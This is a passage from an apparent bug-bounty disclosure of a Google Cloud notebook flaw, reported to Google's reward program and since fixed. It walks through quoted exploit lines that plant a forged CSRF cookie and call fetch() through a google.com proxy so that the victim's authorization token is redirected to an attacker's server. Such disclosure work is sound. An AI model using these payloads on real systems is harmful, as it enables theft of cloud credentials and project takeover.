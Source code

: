 When the victim visits the attacker's notebook instance, the above code will get executed.

- `document.cookie='_xsrf=1;Domain='+base_domain;` sets the CSRF token in the victim's cookie to be 1  

- `fetch("https://{VICTIM-INSTANCE-ID}-dot-us-central1.notebooks.googleusercontent.com/aipn/v2/proxy/feedproxy.google.com/{CUSTOM}/{ID}?_xsrf=1",{credentials:"include",mode:"no-cors"})` fetches the vicitm's instance with crdentials included.  

- Since the CSRF token is set to 1, it matches the one in the cookie and bypasses the CSRF protection.  

- Now the victim's instance server will try to fetch `feedproxy.google.com/{CUSTOM}/{ID}` with the victim's authorization header.  

- `feedproxy.google.com/{CUSTOM}/{ID}` will redirect to the attacker's server, and the attacker will obtain the victim's authorization token in their server logs.  

- Since the authorization token has cloud-platform permission, the attacker could have complete access to all of the victim's GCP projects.  

## Video demonstration: 

{{<youtube dIJ-EvLYtls>}}  

## Fix:
Stopped supporting `*.google.com` as a proxy url.  

## Reward:  
We reported this issue to Google as a part of their Vulnerability Reward Program. They awarded us with a $5000 bounty.  













